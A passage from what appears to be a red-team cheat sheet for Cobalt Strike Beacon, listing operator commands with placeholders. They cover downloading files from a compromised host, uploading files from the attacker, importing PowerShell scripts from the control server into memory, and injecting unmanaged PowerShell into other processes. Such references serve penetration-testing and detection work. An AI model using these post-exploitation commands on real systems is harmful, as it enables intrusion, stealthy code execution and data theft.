 ```powershell
# List the file on the specified directory
beacon > ls <C:\Path>

# Change into the specified working directory
beacon > cd [directory]

# Delete a file\folder
beacon > rm [file\folder]

# File copy
beacon > cp [src] [dest]

# Download a file from the path on the Beacon host
beacon > download [C:\filePath]

# Lists downloads in progress
beacon > downloads

# Cancel a download currently in progress
beacon > cancel [*file*]

# Upload a file from the attacker to the current Beacon host
beacon > upload [/path/to/file]
```

## Powershell and .NET

### Powershell commands

```powershell
# Import a Powershell .ps1 script from the control server and save it in memory in Beacon
beacon > powershell-import [/path/to/script.ps1]

# Setup a local TCP server bound to localhost and download the script imported from above using powershell.exe. Then the specified function and any arguments are executed and output is returned.
beacon > powershell [commandlet][arguments]

# Launch the given function using Unmanaged Powershell, which does not start powershell.exe. The program used is set by spawnto
beacon > powerpick [commandlet] [argument]

# Inject Unmanaged Powershell into a specific process and execute the specified command. This is useful for long-running Powershell jobs
beacon > psinject [pid][arch] [commandlet] [arguments]
```

### .NET remote execution

Run a local .NET executable as a Beacon post-exploitation job. 

Require:
* Binaries compiled with the "Any CPU" configuration.

